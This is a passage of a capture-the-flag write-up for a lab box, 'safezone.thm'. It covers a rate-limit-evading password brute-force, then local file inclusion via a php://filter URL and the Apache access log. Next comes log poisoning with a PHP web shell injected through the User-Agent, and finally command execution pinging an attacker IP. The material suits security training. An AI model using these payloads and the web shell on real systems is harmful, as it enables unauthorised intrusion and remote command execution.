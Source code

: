 ```
			print()
			print("sleeping...")
			print()
			time.sleep(57)
			print("resuming...")
			teststop = 0
			time.sleep(3)
```

And while we wait for the fuzzer to finish, it is an excellent time to talk about our sponsor for this writeup, raid- I'm kidding. I wish I was sponsored by anyone! By no, while you wait there is actually a way to make the script run faster. If you create an account and make the script log onto that account you created on every 3rd attempt then the error never occurs and you can fuzz without any restrictions. 

I'll leave that for you to implement if you chose to use the script above. :P

![image](https://user-images.githubusercontent.com/73745039/113362086-7501a280-9345-11eb-8478-60bf2640dffa.png)

There we go! After waiting a little bit we've got our password!

With the credentials we can log in as the Admin and head on over to the details page under their account. Not only do we now have access to seeing user passwords, but we now also have access to the LFI itself.

![image](https://user-images.githubusercontent.com/73745039/113362150-9bbfd900-9345-11eb-9988-ee970cd9d899.png)

Okay so, now that we can access other files in the system what are we looking for? Well. First we should check our own file to see how the LFI is being implemented. We can do this by using a php filter abd base64 encoding our own page. This can be done by typing this in the url:

http://safezone.thm/detail.php?page=php://filter/convert.base64-encode/resource=detail.php

Okay but rondons, what is that doing? Well, since the php filter is base64 encoding our php code, the php isn't being run, which allows us to read the server-side php of the detail page.

Knowing that there are no filters in our case we can then search for our main targets. We're looking for the access.log of the apache server. This is so we can do cache poisoning. 

http://safezone.thm/detail.php?page=/var/log/apache2/access.log

![image](https://user-images.githubusercontent.com/73745039/113362385-2e607800-9346-11eb-9bc9-b71f302f0b89.png)

Bingo! So now to poison the cache we start up burpsuit, reload the page and catch it in BURP. We replace our user-agent to:
	<?php passthru($_REQUEST['cmd']); ?>
And when we send our next request we've just injected PHP code into the cache, which will be ran when we next reload the page with any command in the new cmd parameter.

We start up our own terminal and listen for pings with:

tcpdump -i eth0 icmp

And then send out a ping to our own IP address!

http://safezone.thm/detail.php?page=/var/log/apache2/access.log&cmd=ping -c 5 [ATTACKER IP]
